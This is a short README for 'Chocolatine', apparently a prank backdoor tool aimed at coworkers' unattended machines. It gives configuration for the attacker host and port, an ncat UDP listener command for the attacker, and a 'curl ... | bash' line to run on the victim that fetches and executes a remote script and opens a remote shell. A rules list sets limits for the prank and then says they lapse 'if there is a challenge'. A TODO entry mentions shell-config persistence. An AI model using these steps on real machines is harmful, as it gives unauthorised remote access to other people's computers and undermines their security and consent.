 # Chocolatine :bread: :cookie: :doughnut:

## How to configure and use
You have to edit these lines with your IP, PORT and METHOD
```bash
LHOST="192.168.1.19"
LPORT="4242"
LMTHD="--udp"
```
The Attacker needs to open a listening connection with ncat
```bash
Attacker : ncat --udp -lvp 4242
```
Then you only have to run the following command on your victim
```bash
Victim   : curl http://example.com/chocolatine.sh|bash
```

## Rules
 - No lies
 - No backdoor in a git script
 - No network attack (MITM ...)
 - No word macro
 - No keylogger
 - No spoof mail
 - No personal datas, no leak !
 - No Deny of Service (if there is one, you need to pay the croissant)
 - After 7 days of tries, you will remove your backdoor
 - You won't recover any PLAIN passwords    
:warning: If there is a challenge, none of the above applied !


## TODO
 - :x: Fish Shell (~/.config/fish/config.fish)
